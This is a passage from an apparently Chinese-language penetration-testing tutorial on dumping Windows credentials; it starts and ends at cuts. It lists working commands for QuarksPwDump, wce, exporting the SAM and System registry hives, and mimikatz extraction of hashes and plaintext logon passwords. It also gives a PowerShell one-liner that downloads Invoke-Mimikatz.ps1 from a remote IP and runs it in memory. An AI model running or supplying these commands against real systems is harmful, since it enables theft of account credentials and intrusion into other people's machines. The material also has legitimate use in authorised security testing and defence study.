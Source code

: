 
##### 3.QuarksPwDump

是一款比较常用的 hash dump 工具，使用 QuarksPwDump –dhl获取本地所有账户的hash值。



##### 4.wce

Wce 在不指定任何参数时默认输出密码的 hash 值，使用 wce -w 列出明文密码。



##### 5.通过 SAM 和 System 文件抓取密码

(1)导出 SAM 和 System 文件

无工具导出 SAM 文件：

```
reg save hklm\sam sam.hive
reg save hklm\system system.hive
```

通过 reg 的 save 选项将注册表中的 SAM、System 文件导出到本地磁盘。

(2)通过读取 SAM 和 System 文件获得 NTLM Hash

+ 使用 mimikatz 读取 SAM 和 System 文件。  (使用 mimikatz 想要管理员权限)

mimikatz 可以从内存中提取明文密码、散列值、PIN 和Kerberos 票据。也可以执行哈希传递、票据传递或者构建黄金票据。

将从目标系统中导出的 system.hive 和 sam.hive 文件放到本地 (与 mimikatz 放在同一目录下)。双击 mimikatz，输入命令 ``lsadump::sam /sam:sam.hive /system:system.hive``。



mimikatz 直接读取本地 SAM 文件，导出 hash 信息：

```
privilege::debug  #提升权限
token::elevate  #将权限提升至 system
lsadump::sam  #读取本地 SAM 文件
```

[![5YRe2T.png](https://z3.ax1x.com/2021/10/17/5YRe2T.png)](https://imgtu.com/i/5YRe2T)

[![5YRWLQ.png](https://z3.ax1x.com/2021/10/17/5YRWLQ.png)](https://imgtu.com/i/5YRWLQ)

mimikatz 在线读取 SAM 文件：

```
mimikatz "privilege::debug" "log" "sekurlsa::logonpasswords"
```

powershell 远程加载：

```
powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.101/Invoke-Mimikatz.ps1');Invoke-Mimikatz
```

##### 6.注册表开启 wdigest Auth 获取明文密码

开启
